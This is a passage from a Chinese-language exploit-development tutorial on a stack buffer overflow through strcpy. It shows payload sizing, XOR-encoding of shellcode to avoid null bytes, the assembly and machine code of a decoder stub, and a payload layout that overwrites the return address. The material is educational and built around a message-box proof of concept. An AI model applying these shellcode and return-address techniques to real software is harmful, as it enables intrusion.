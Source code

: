 buffer长度增大到1556，用于保存弹框实例shellcode

根据上节实例，淹没返回地址的偏移9-12，因此password的长度增加到1556+12=1568


**(2) strcpy遇到字符00会截断**


如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-2-24/2-4.png)

弹框实例shellcode在00000009h处字符为0x00，strcpy在执行时遇到0x00会提前截断，导致shellcode不完整，无法覆盖返回地址

所以，需要对shellcode进行编码


为方便读者理解，参照《0day安全：软件漏洞分析技术》中3.5.2节的方法(此章节有详细说明，不再赘述过程)：

- shellcode尾部添加结束字符0x90
- 将shellcode逐字节同0x44作异或加密
- 汇编实现解码器并提取机器码
- 解码器的机器码放于shellcode首部
- 解码器将EAX对准shellcode起始位置，逐字节同0x44异或进行解密，遇到0x90停止

解码器的汇编代码如下：

```
void main()
{
	__asm
	{
		add eax,0x14
		xor ecx,ecx
decode_loop:
		mov bl,[eax+ecx]
		xor bl,0x44
		mov [eax+ecx],bl
		inc ecx
		cmp bl,0x90
		jne decode_loop
	}
}
```

使用OllyDbg提取出机器码如下：

`"\x83\xC0\x14\x33\xC9\x8A\x1C\x08\x80\xF3\x44\x88\x1C\x08\x41\x80\xFB\x90\x75\xF1"`

新的shellcode格式如下：

解码器机器码+加密的弹框实例`shellcode+0xD4+"\x90\x90\x90\x90\x90\x90\x90"+"\x7C\xFB\x12\x00"`

**注：**

0x90^0x44=0xD4,0xD4即编码后的结束字符

"\x90\x90\x90\x90\x90\x90\x90"为填充字符串，无意义

"\x7C\xFB\x12\x00"为覆盖的函数返回地址
